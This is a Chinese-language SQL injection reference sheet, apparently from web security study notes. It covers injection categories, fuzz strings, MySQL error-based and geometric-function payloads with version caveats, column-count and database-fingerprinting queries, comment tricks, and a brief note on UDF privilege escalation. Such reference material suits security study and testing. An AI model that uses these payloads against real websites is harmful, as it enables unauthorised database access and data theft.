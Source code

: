 
# SQL注入

## 简介

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。

## 分类

### 按技巧分类

根据使用的技巧，SQL注入类型可分为

- 盲注
    - 布尔盲注：只能从应用返回中推断语句执行后的布尔值
    - 时间盲注：应用没有明确的回显，只能使用特定的时间函数来判断
- 报错注入：应用会显示全部或者部分的报错信息
- 堆叠注入：有的应用可以加入 ``;`` 后一次执行多条语句
- 其他

### 按获取数据的方式分类

另外也可以根据获取数据的方式分为3类

#### inband

利用Web应用来直接获取数据，如报错注入，这类注入都是通过站点的响应或者错误反馈来提取数据。

#### inference

通过Web的一些反映来推断数据，如布尔盲注，也就是我们通俗的盲注，
通过web应用的其他改变来推断数据。

#### out of band (OOB)

通过其他传输方式来获得数据，比如DNS解析协议和电子邮件。

## 注入检测

### 常见的注入点

- GET/POST/PUT/DELETE参数
- X-Forwarded-For
- 文件名

### Fuzz注入点

- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/`` 
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- 反引号执行

### 测试用常量

- ``@@version``
- ``@@servername``
- ``@@language``
- ``@@spid``

### 测试列数

例如 ``http://www.foo.com/index.asp?id=12+union+select+null,null--`` ，不断增加 ``null`` 至不返回

### 报错注入

- ``select 1/0``
- ``select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a``
- ``extractvalue(1, concat(0x5c,(select user())))``
- ``updatexml(0x3a,concat(1,(select user())),1)``
- ``exp(~(SELECT * from(select user())a))``
- ``ST_LatFromGeoHash((select * from(select * from(select user())a)b))``
- ``GTID_SUBSET(version(), 1)``

### 基于geometric的报错注入

- ``GeometryCollection((select * from (select * from(select user())a)b))``
- ``polygon((select * from(select * from(select user())a)b))``
- ``multipoint((select * from(select * from(select user())a)b))``
- ``multilinestring((select * from(select * from(select user())a)b))``
- ``LINESTRING((select * from(select * from(select user())a)b))``
- ``multipolygon((select * from(select * from(select user())a)b))``

其中需要注意的是，基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 `commit 95825f <https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04>`_ 。

而以上列表中基于geometric的报错注入在这个 `commit 5caea4 <https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978>`_ 中被修复，在5.5.x较后的版本中同样不再生效。

### 堆叠注入

- ``;select 1``

### 注释符

- ``#``
- ``--+``
- ``/*xxx*/``
- ``/*!xxx*/``
- ``/*!50000xxx*/``

### 判断过滤规则

- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

### 获取信息

- 判断数据库类型
    - ``and exists (select * from msysobjects ) > 0`` access数据库
    - ``and exists (select * from sysobjects ) > 0`` SQLServer数据库

- 判断数据库表
    - ``and exsits (select * from admin)``

- 版本、主机名、用户名、库名
- 表和字段
    - 确定字段数
        - Order By
        - Select Into
    - 表名、列名

### 测试权限

- 文件操作
    - 读敏感文件
    - 写shell
- 带外通道
    - 网络请求


## 权限提升

### UDF提权
UDF（User Defined Function，用户自定义函数）是MySQL提供的一个功能，可以通过编写DLL扩展为MySQL添加新函数，扩充其功能。
当获得MySQL权限之后，即可通过这种方式上传自定义的扩展文件，从MySQL中执行系统命令。
